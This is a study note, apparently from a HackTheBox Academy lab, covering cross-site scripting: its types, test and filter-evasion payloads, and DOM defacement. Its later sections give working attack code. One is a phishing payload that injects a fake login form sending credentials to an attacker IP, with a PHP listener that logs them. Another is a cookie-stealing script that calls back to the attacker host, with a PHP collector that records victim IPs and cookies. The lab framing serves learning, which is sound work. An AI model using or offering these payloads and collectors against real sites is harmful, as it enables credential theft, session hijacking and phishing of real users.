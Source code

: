 ## Intro To XSS

XSS is a type of vulnerability that takes advantage of a lack of user input sanitiszation to write and execute Javascript code. Due to how Javascript works, the XSS is executed on the side that loads the webpage (whether it's a client, somebody who opens a compromised page, or so on)

XSS has a limited scope - it can only execute JavaScript code in the browser. You cannot directly root or get a shell on a box easily with XSS. It can be used to enumerate data, modify webpages, steal cookies, and so on

```
Stored (Persistent) XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

Reflected (Non-Persistent) XSS 	Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

DOM-based XSS 	Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)
```

## Stored/Persistent XSS

This is the most critical type of XSS. Our playoad gets stored somewhere, and gets retrieved/executed upon visiting the page. If we embed a cookie stealer on a comment page, we can steal cookies of anyone who visits the website.

We can use a test payload (generating an alert) to see if we can execute JavaScript code. This is easy to spot when our exploit works.

```
<script>alert(window.origin)</script>
<script>print()</script>
<script>alert(document.cookie)</script>
```

It's important to note that modern web development uses IFrames to handle user input, which limits the scope of XSS to the iframe, rather than the main web application.

## Reflected XSS

Occurs when our payload reaches the back-end server and gets reflected back to us.

A good example of how to use this is creating a phishing link. We create an exploit that works on our end the one time (ie, grabbing a cookie and sending it to a web server). This creates a GET link, that when clicked, will load the page and execute the XSS. We can view our HTTP history to grab the GET request that worked.

![xss-1](xss-1.png)

```
<script>alert(document.cookie)</script>
```

## DOM XSS

Occurs when JavaScript is used to change the page source through the Document Object Model, or DOM.

DOM XSS has two parts: the source (the object that takes the user input, like an input field or a URL parameter), or a Sink (the actual function that modifies the DOM)

Some common JS functions to modify the DOM are:

```

    document.write()
    DOM.innerHTML
    DOM.outerHTML


    add()
    after()
    append()
```

## Filter Evasion

If the ```<script>``` tag is not allowed, we can find other ways to execute JavaScript, like so:

```
<img src="" onerror=alert(window.origin)>
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

Web application culnverability scanners like Nessus, Burp Pro, and ZAP have automated detection for XSS.

XSS Strike, Brute XSS, XSSer are tools that can be used to test for XSS.

We can also use manual payloads, like

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## XSS Attacks - Defacing

We can use JavaScript through XSS to manipulate HTML elements of the DOM to make it look different.

```

Background Color document.body.style.background
Background document.body.background
Page Title document.title
Page Text DOM.innerHTML

<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
<script>document.getElementById("todo").innerHTML = "New Text"</script>


```

## XSS Attacks - Phishing

We can use XSS such that when a target clicks a link, the XSS is activated and sends data somewhere (like writing to a web server).

So, we can include an XSS payload the writes to the DOM when it's executed, creating some elements. When the user submits the login form, it will send a get request to our IP, with the data.

```document.write('<h3>Please login to continue</h3><form action=http://10.10.14.49><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');```

Note in order for this to work, we need to have a listener on our IP address for the specified port. We can use a basic PHP script to handle the requests. We use this XSS payload to create a phishing URL. We then copy the GET request URL of the successful XSS, and throw it at the victim. We will recieve the web traffic with the information.

index.php
sudo php -S 0.0.0.0:80
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## XSS Attacks - Session Hijacking

Blind XSS is a type of XSS where code is executed on a page we do not have access to, such as:

```

    Contact Forms
    Reviews
    User Details
    Support Tickets
    HTTP User-Agent header

```

We can use the previous trick to have XSS that makes calls back to our server. An easy way of doing this is providing a remote script.

```<script src="http://10.10.14.49/exploit.js"></script>```

The core of subject hijacking is similar to phishing, but we have less user input required (ie we steal their cookie via a cookie stealer.)

myBlindXSSscript.js

```
new Image().src='http://10.10.14.49/index.php?c='+document.cookie
```

XSS Payload
```
<script src=http://OUR_IP/script.js></script>
```

index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -S 0.0.0.0:80
<script src=http://10.10.14.87/username></script>
<script src=http://10.10.14.87/password></script>

